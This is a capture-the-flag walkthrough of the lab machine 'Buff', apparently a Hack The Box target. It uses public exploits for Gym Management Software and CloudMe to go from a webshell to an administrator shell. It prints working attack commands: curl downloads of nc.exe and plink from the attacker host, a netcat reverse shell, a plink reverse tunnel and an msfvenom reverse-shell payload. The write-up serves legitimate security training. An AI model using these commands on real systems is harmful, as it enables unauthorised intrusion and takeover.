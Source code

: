 # BUFF

### User Flag

```
user@kali:~$ nmap -Pn  10.10.10.198
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 11:34 CEST
Nmap scan report for 10.10.10.198
Host is up (0.19s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

In the contact page we found that the webpage is made with `Gym Management Software 1.0 `
For wich you can find and exploit in [Exploit-DB](https://www.exploit-db.com/exploits/48506)

```
kali@kali:~/hacking/buff$ python3 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                                                                                                     
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

To copy files, we start apache2 in our machine:

```
user@kali:~$ sudo systemctl start apache2
user@kali:/var/www/html$ sudo cp /usr/share/windows-binaries/nc.exe .
user@kali:/var/www/html$ sudo cp /usr/share/windows-binaries/plink.exe .
```

And we copy them into Windows using curl:

```
C:\xampp\htdocs\gym\upload> curl 10.10.14.130/nc.exe -o nc.exe
C:\xampp\htdocs\gym\upload> curl 10.10.14.130/plink.exe -o plink.exe
```

We can get a true cmd terminal using netcat. In our machine we listen in a port and we run netcat in Windows:

```
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.130 1025 -e cmd
```

```
user@kali:/var/www/html$ nc -l -vvv -p 1025
listening on [any] 1025 ...
10.10.10.198: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.130] from (UNKNOWN) [10.10.10.198] 52172
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>

```

### Root FLag

Run Winpeas to detect possible vulnerabilities:

```
C:\xampp\htdocs\gym\upload> curl 10.10.14.130/winPEASx64.exe -o winpeas.exe
```
Cnce you use winpeas you will found a Software called cloudme in the version 1.10.0, which [can be exploited](https://www.exploit-db.com/exploits/44470). CloudMe runs on port 8888. However, the firewall is blocking it. Thus, we need to do a tunnel so we can access port 8888 from the outside. To do this, we use plink.

```
plink.exe -v user@10.10.14.130 -R 8888:127.0.0.1:8888
```

With this, plink can't connect to our machine. I don't know why, but it can't connect to port 22 (maybe the firewall?). We change our port in the sshd daemon to 10001 and run plink again.

```
plink.exe -v user@10.10.14.130 -R 8888:127.0.0.1:8888 -P 10001
```

This time, plink complains because it can't connect using any available algorithm. In our machine, we enable additional key exchange algorithm (edit sshd_config):

```
KexAlgorithms +diffie-hellman-group1-sha1
Ciphers +aes128-cbc
```

Then we are able to run plink. Now, we need to generate the payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.130 LPORT=5000 -f c
```

And we replace it in the script 44470.py. Finally:

```
user@kali:~/hacking/buff$ nc -l -vvv -p 5000
```

And we run the exploit:

```
user@kali:~/hacking/buff$ python 44470.py
```

The machine will connect to the previous netcat listening in port 5000, giving us an administrator shell

